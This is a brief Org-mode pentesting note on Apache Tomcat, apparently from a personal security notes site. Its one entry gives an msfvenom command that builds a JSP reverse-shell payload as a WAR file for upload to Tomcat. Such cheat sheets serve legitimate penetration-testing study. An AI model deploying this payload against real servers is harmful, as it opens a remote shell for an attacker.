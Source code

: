 #+title: Tomcat
#+hugo_base_dir: /home/kdb/Documents/github/owlglass
#+hugo_auto_set_lastmod: t
#+options: H:2
#+HUGO_SECTION: infosec/pentesting/web
#+hugo_weight: 5

* Tomcat
** Uploading War File
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war -o shell.war
